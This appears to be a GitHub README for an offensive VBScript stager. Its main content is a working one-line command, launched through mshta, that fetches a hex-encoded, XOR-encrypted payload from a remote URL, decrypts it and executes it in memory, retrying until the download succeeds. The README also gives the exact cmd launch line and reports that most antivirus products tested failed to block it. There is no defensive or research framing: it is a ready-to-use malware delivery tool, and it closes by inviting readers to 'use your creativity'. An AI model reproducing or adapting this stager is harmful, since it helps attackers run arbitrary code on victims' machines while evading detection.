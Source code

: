 # MSHTA VBScript Download & Execute
Downloads, decode, decrypt and executes a VBScript using cmd and mshta
```
'=========================================='
'                 Features                 '  
'++++++++++++++++++++++++++++++++++++++++++'
' [*] Autoreconnect                        '
' [*] Hexadecimal encoded payload (UTF8)   '
' [*] Encrypted payload                    '
' [*] In (almost) memory execution         '
'++++++++++++++++++++++++++++++++++++++++++'
'<---------------------------------------->'
'<========================================>'
'<---------------------------------------->'
'mshta.exe one line command                '
'mshta.exe maximum command length   : 487  '
'Script length with double quotes   : 330  '
'<---------------------------------------->'
'=========================================='
```
## One line command
```
"On Error Resume Next:Set a=CreateObject(""MSXML2.ServerXMLHTTP.6.0""):a.setOption 2,13056:while(Len(b)=0):a.open""GET"",""LINK_TO_YOUR_PAYLOAD"",False:a.send:b=a.responseText:wend:k=""PAYLOAD_PASSWORD"":for i=0to Len(b)-1Step 2:c=c&Chr(Asc(Chr(""&H""&Mid(b,i+1,2)))xor Asc(Mid(k,((i/2)mod Len(k))+1,1))):Next:ExecuteGlobal c:"
```

## Example
```
(cmd.exe): mshta vbscript:execute("ONE LINE COMMAND")(window.close)
```
![Alt Text](https://i.imgur.com/9wuCs1v.gif)

## Evasion Test
Tested on **Windows7/10** x64 with: *Avira*, *AVG*, *Avast*, *ESET32*, *Kaspersky*, *Panda*, *BitDefender* and *Windows Defender* (Win7/10) to launch a more *expansive malicous payload*, the only one who blocked was **BitDefender**.

## Use your creativity ;)
